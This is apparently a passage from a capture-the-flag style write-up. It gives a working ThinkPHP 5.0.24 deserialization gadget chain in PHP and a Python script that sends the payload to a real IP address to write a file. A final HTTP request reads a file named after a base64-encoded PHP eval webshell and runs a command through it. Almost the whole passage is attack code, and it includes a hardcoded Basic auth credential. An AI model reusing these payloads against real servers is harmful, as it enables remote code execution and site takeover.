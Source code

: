 ```php=

    function __construct() {
	$this->parent = new Output();
	$this->error = new HasOne();
	$this->model = "test";
	$this->append = ["test" => "getError"];
	$this->data = ["panrent" => "true"];
    }
}

namespace think\process\pipes;
use think\model\Pivot;

class Windows {
    private $files = [];
    public function __construct() {
	$this->files=[new Pivot()];
    }
}

$obj = new Windows();
$payload = serialize($obj);
echo base64_encode($payload);
```

写文件到/tmp
```python=
import requests
import hashlib
payload=requests.get("http://127.0.0.1/cms/thinkphp/5.0.24/tp5/public/test.php").text.strip()
burp0_url = "http://8.208.102.48:80/public/index.php"
params={
    "s":"/index/Index/hello",
    "s3cr3tk3y":payload
}
burp0_headers = {"Authorization": "Basic QWRtaW4xOTY0NzUyOkRzYVBQUFAhQCNhbXNwZTEyMjE=", "Connection": "close"}
res=requests.get(burp0_url, headers=burp0_headers ,params=params)
print(res.text)
print(requests.get("http://8.208.102.48:80/public/log.txt").text)

```


```
POST /public/nationalsb/login.php HTTP/1.1
Host: 8.208.102.48
Authorization: Basic QWRtaW4xOTY0NzUyOkRzYVBQUFAhQCNhbXNwZTEyMjE=
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 155

file=php://filter/read=convert.base64-encode/resource=/tmp/PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8%2b743f45ea3d60a1190e3f723595050ca2.php&1=phpinfo();&1=phpinfo();
```
